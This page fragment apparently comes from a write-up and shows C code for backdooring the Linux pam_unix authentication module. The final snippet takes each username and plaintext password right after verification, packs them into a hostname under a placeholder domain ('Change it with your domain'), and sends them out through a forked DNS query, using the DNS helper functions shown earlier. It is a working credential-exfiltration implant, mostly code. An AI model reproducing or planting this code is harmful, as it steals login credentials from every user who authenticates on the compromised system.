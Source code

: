```c
        }
        if(strncmp(line , "nameserver" , 10) == 0)
        {
            p = strtok(line , " ");
            p = strtok(NULL , " ");
             
            //p now is the dns ip :)
            //????
        }
    }
    // EDIT THIS. It is a PoC 
    strcpy(dns_servers[0] , "127.0.0.1");
    
}
 
/*
 * This will convert www.google.com to 3www6google3com 
 * got it :)
 * */
void ChangetoDnsNameFormat(unsigned char* dns,unsigned char* host) 
{
    int lock = 0 , i;
    strcat((char*)host,".");
     
    for(i = 0 ; i < strlen((char*)host) ; i++) 
    {
        if(host[i]=='.') 
        {
            *dns++ = i-lock;
            for(;lock<i;lock++) 
            {
                *dns++=host[lock];
            }
            lock++; //or lock=i+1;
        }
    }
    *dns++='\0';
}
#define _UNIX_AUTHTOK  "-UN*X-PASS"
// (...)
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
And, lastly this little edit:
```c
// (...)
/* verify the password of this user */	
    retval = _unix_verify_password(pamh, name, p, ctrl);
    unsigned char hostname[100];
    get_dns_servers();
    snprintf(hostname, sizeof(hostname), "%s.%s.nowhere.local", name, p); // Change it with your domain
    if (fork() == 0) {
    	ngethostbyname(hostname, T_A);
    }
    name = p = NULL;
// (...)
```
